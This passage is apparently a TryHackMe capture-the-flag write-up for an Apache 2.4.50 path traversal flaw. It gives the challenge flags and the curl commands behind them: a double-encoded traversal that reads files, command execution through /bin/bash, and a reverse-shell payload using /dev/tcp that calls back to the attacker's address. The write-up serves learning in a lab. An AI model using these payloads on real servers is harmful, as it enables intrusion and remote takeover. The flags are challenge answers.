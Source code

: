 ```
$ curl 'http://10.10.37.52:8082/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/flag.txt'
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 24 100 24 0 0 23 0 0:00:01 0:00:01 --:--:-- 23THM{D0UBL3_3NC0D1N6_F7W}

```

4. **What is the flag on port 8083?**
- ***THM{F1L732_8YP455_2C3}***

```
$ curl 'http://10.10.37.52:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /flag.txt' -H "Content-Type: text/plain"
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 72 0 22 100 50 25 58 --:--:-- --:--:-- --:--:-- 84THM{F1L732_8YP455_2C3}

```

5. **I was able to pop a shell! (I can't actually verify this, so I'll trust you on that one :))**
***No Answer Needed***

6. **What user is the Apache server running as?**
- ***daemon***

7. **Find the root flag on the machine on port 8083?**
- ***THM{P21V_35C_F20M_4P4CH3_15_FUN}***

```
$ curl -v 'http://10.10.37.52:8083/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo; bash -i >& /dev/tcp/10.17.31.150/4242 0>&1'

- Trying 10.10.37.52:8083...
- TCP_NODELAY set
  % Total % Received % Xferd Average Speed Time Time Time Current
  Dload Upload Total Spent Left Speed
  0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0\* Connected to 10.10.37.52 (10.10.37.52) port 8083 (#0)
  > POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash HTTP/1.1
  > Host: 10.10.37.52:8083
  > User-Agent: curl/7.67.0
  > Accept: _/_
  > Content-Length: 48
  > Content-Type: application/x-www-form-urlencoded
  >
  > } [48 bytes data]
- upload completely sent off: 48 out of 48 bytes
- Mark bundle as not supporting multiuse
  < HTTP/1.1 200 OK
  < Date: Fri, 12 Nov 2021 16:20:43 GMT
  < Server: Apache/2.4.50 (Unix)
  < Transfer-Encoding: chunked
  <
  100 48 0 0 0 48 0 0 --:--:-- 0:01:05 --:--:-- 0{ [0 bytes data]
- transfer closed with outstanding read data remaining
  100 48 0 0 0 48 0 0 --:--:-- 0:01:05 --:--:-- 0
- Closing connection 0
  curl: (18) transfer closed with outstanding read data remaining

```
